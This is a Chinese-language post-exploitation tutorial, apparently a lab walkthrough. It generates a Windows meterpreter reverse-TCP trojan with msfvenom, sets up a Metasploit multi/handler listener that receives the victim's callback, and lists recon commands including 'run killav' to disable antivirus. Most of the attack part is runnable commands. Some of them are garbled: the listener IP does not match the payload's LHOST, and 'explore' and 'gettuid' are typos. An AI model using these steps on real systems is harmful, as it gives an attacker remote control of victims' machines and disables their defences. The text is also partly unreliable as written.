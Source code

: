 ## 2、后渗透

### 1、生成exe木马

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.127 LPORT=4444 -f exe -o 123.exe
```

10.10.10.127是攻击者的监听机器，4444是被攻击机器监听端口

### 2、开启kali监听

启动msfconsole

![image-20220317151928134](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cwlr427jj20hg0gkta3.jpg)

#### 开启监听

```
use exploit/multi/handler
```

#### 设置tcp监听

```
set payload windows/meterpreter/reverse_tcp

set lhost 212.129.238.18

#输入开始监听
explore
```

![image-20220317152306277](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cwpjmmdoj20uk0e640c.jpg)



### 3、木马上线

当被攻击的机器（我的是windows xp）点击生成的123.exe木马时，即可以监听到木马上线

![image-20220317152638860](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0iuue7l2yj217009st9y.jpg)



### 4、主机信息收集

#### 1.查看主机网络配置

```
ipconfig			查看网络

arp -a			查看arp表查看连接过的ip

sysinfo			查看系统信息

whoami			查看当前用户名称

net user			查看用户名单

gettuid			查看当前权限

run killav		关闭杀毒软件
```
